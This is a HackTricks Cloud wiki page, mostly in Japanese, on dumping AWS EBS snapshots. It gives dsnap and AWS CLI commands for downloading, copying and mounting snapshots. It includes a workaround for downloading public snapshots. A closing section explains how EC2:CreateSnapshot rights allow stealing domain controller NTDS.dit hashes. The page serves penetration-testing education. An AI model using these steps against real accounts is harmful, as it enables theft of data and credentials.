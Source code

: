 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしよう。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出しよう。

</details>
{% endhint %}

## スナップショットをローカルで確認する
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Note** that `dsnap` will not allow you to download public snapshots. To circumvent this, you can make a copy of the snapshot in your personal account, and download that:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

この技術の詳細については、元の研究を参照してください：[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Pacuを使用して、モジュール[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)を使ってこれを行うことができます。

## AWSでスナップショットを確認する

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**自分の管理下にあるEC2 VMにマウントする**（バックアップのコピーと同じリージョンにある必要があります）:

ステップ1: EC2 –> Volumesに移動し、希望のサイズとタイプの新しいボリュームを作成します。

このアクションを実行するには、以下のコマンドに従います:

* EC2インスタンスにアタッチするためのEBSボリュームを作成します。
* EBSボリュームとインスタンスが同じゾーンにあることを確認します。

ステップ2: 作成したボリュームを右クリックし、「attach volume」オプションを選択します。

ステップ3: インスタンステキストボックスからインスタンスを選択します。

このアクションを実行するには、以下のコマンドを使用します:

* EBSボリュームをアタッチします。

ステップ4: EC2インスタンスにログインし、コマンド`lsblk`を使用して利用可能なディスクを一覧表示します。

ステップ5: コマンド`sudo file -s /dev/xvdf`を使用してボリュームにデータがあるかどうかを確認します。

上記のコマンドの出力が「/dev/xvdf: data」と表示された場合、ボリュームは空です。

ステップ6: コマンド`sudo mkfs -t ext4 /dev/xvdf`を使用してボリュームをext4ファイルシステムにフォーマットします。あるいは、コマンド`sudo mkfs -t xfs /dev/xvdf`を使用してxfsフォーマットを使用することもできます。ext4またはxfsのいずれかを使用する必要があることに注意してください。

ステップ7: 新しいext4ボリュームをマウントするための任意のディレクトリを作成します。例えば、「newvolume」という名前を使用できます。

このアクションを実行するには、コマンド`sudo mkdir /newvolume`を使用します。

ステップ8: コマンド`sudo mount /dev/xvdf /newvolume/`を使用してボリュームを「newvolume」ディレクトリにマウントします。

ステップ9: 「newvolume」ディレクトリにディレクトリを変更し、ディスクスペースを確認してボリュームマウントを検証します。

このアクションを実行するには、以下のコマンドを使用します:

* ディレクトリを`/newvolume`に変更します。
* コマンド`df -h .`を使用してディスクスペースを確認します。このコマンドの出力は、「newvolume」ディレクトリの空きスペースを表示するはずです。

Pacuを使用して、モジュール`ebs__explore_snapshots`を使用してこれを行うことができます。

## AWSでスナップショットを確認する（cliを使用）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、**ドメインコントローラーのスナップショットを作成**し、それを自分が管理するインスタンスにマウントし、**NTDS.ditとSYSTEMレジストリハイブファイルをエクスポート**することで、すべてのドメインユーザーのハッシュを盗むことができます。この攻撃を自動化するためのツールを使用できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後に以前の技術のいずれかを使用することができます。

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリにPRを提出してください。

</details>
{% endhint %}

